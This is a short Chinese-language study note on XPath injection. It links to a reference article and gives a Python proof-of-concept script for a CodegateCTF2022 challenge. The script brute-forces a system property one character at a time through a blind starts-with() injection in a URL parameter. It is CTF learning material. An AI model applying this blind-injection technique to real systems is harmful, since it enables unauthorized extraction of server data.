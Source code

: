 # XPath注入

## 基础部分

可以简单看看先知上的这篇文章：https://xz.aliyun.com/t/7791

## 其他

### CodegateCTF2022

本周末打了一下这个比赛，猜到了读系统配置，奈何太菜了最后没做出来

poc

```python
import requests
from string import ascii_lowercase, digits

SESSION = {'JSESSIONID':'5D31583806832F60CE7133EEEA94EA6E'}
flag = ''

for i in range(34+len('codegate2022')):
    for x in ascii_lowercase+digits+'{}':
        conn = requests.get('http://42.192.137.212:1233/blog/read?idx=1%27%20and%20starts-with(system-property(%27flag%27),%27'+flag+x+'%27)%20and%271%27=%271', cookies=SESSION)
        r1 = conn.text
        if 'test' in r1:
            flag += x
            print(flag)
            break
```

